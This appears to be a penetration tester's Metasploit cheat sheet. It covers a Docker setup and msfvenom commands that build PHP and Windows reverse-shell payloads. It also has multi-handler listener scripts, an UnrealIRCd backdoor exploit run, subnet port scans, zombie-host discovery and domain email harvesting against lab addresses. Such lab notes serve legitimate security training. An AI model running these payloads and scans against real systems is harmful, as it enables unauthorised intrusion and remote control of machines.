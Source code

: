 #### 1. About

- URL: `github.com/rapid7/metasploit-framework`
- metasploit framework


#### 2. Setup and run

Install:
```
# docker pull metasploitframework/metasploit-framework
# docker tag metasploitframework/metasploit-framework:latest msf
```

Expose ports on specific IP address and run:
```
# ip=`ip a | grep tun0 | grep inet | awk '{print $2}' | sed 's/\/.*//g'`
# docker run --name msf -e ip=$ip -v /tmp:/tmp -p 4000-4010:4000-4010 -d --rm -it msf
# docker exec -it msf /usr/src/metasploit-framework/msfconsole
```

Or just run instance in background:
```
# docker run --name msf -v /tmp:/tmp -p 4000-4010:4000-4010 -d --rm -it msf
```

Aliases (`~/.bash_aliases`, `~/.profile`, or `~/.zsh/aliasrc`):
```
# f="$HOME/.zsh/aliasrc"
# [[ -z `grep masfvenom $f` ]] && echo 'alias msfvenom="docker exec -it msf /usr/src/metasploit-framework/msfvenom"' >> $f
# [[ -z `grep msfconsole $f` ]] && echo 'alias msfconsole="docker exec -it msf /usr/src/metasploit-framework/msfconsole"' >> $f
```


#### 3. Example 1
```
# msfvenom -p php/meterpreter/reverse_tcp LHOST=$ip LPORT=4001 R -o /tmp/msf/payload.php
# cat << EOF > /tmp/shell.rc
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/shell.rc
```


#### 4. Example 2
```
# cat << EOF > /tmp/exploit.rc
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.11
set RPORT 6697
set PAYLOAD cmd/unix/reverse
set LHOST 10.10.10.10
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/exploit.rc
```


#### 5. Example 3 (custom exploit)
```
# docker run --name msf -v /tmp:/tmp -p 4000-4010:4000-4010 -d --rm -it msf
# msfvenom -p windows/shell_reverse_tcp LHOST=172.16.201.160 LPORT=4001 EXITFUNC=thread -b '\x00\x0a\x0d' -f python -v buffer
# cat << EOF > /tmp/handler.rc
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set EXITFUNC thread
set LHOST 10.10.10.11
set LPORT 4001
exploit
EOF
# msfconsole -qr /tmp/handler.rc
```


#### 6. Multi-handler and listeners for both x86 / x64

a) Payloads
```
# msfvenom -p windows/x64/shell/reverse_tcp -f raw -o /tmp/x64_rev_shell.exe EXITFUNC=thread LHOST=10.11.0.232 LPORT=6666
# msfvenom -p windows/shell/reverse_tcp -f raw -o /tmp/x86_rev_shell.exe EXITFUNC=thread LHOST=10.11.0.232 LPORT=5555
```

b) Listeners:
```
# cat << EOF > handler.cfg
use exploit/multi/handler
set LHOST 10.10.10.11
set ExitOnSession false
set EXITFUNC thread
set PAYLOAD windows/x64/shell/reverse_tcp
set LPORT 6666
exploit -j
set PAYLOAD windows/shell/reverse_tcp
set LPORT 5555
exploit -j
EOF
# /etc/init.d/postgresql start
# msfconsole -qr handler.cfg
```


#### 7. Port scanning

a) SYN scan
```
# q="use auxiliary/scanner/portscan/syn; \
   set INTERFACE tap0; \
   set PORTS 80; \
   set RHOSTS 10.11.1.*; \
   set THREADS 10; \
   run; exit y \
"
# msfconsole -qx "$q"
```

b) TCP scan
```
# q="use auxiliary/scanner/portscan/tcp; \
   set RHOSTS 10.11.1.*; \
   set PORTS 80; \
   set THREADS 5; \
   run; exit y \
"
# msfconsole -qx "$q"
```

c) SMB scan
```
# q="use auxiliary/scanner/smb/smb_version; \
   set RHOSTS 10.11.1.*; \
   set THREADS 11; \
   run; exit y \
"
# msfconsole -qx "$q"
```

d) Find idle boxes for zobie scan
```
# q="use auxiliary/scanner/ip/ipidseq; \
   set RHOSTS 10.11.1.*; \
   set THREADS 11; \
   run; exit y \
"
# msfconsole -qx "$q"
```


#### 8. Enumeration

a) Find emails on domain
```
# domain='example.com'
# q="use auxiliary/gather/search_email_collector; set DOMAIN $domain; run; exit y"
# msfconsole -qx "$q" | grep -oE "[-0-9a-zA-Z_]{1,}@$domain"
email@example.com
user@example.com
```


#### 9. MSF Database Cache
```
# systemctl start postgresql
# msfdb init
msf > db_status
msf > db_rebuild_cache
```
